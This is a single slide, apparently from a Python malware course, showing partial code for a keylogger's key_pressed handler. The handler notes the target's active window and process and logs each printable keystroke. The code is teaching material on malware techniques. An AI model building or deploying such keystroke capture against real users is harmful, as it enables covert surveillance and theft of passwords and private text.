

Python Malwares (cont.)
Writing a Keylogger (cont.)
Now to the essential part, the function key_pressed, which will be executed every time the target clicks any key on the keyboard.
def key_pressed(event):
    global current_window
    global current_pid, current_exec_name, current_window_title
    # check to see if target changed windows
    if event.WindowName != current_window:
        current_window = event.WindowName
        current_pid, current_exec_name, current_window_title = get_current_process()
    ...
If any ASCII key is pressed, it gets added to the keylogger result.

def key_pressed(event):
    ...
    if 32 < event.Ascii < 127:
        # add pressed key to the result
        add_info(current_pid, current_exec_name, current_window_title, chr(event.Ascii) + " ")
138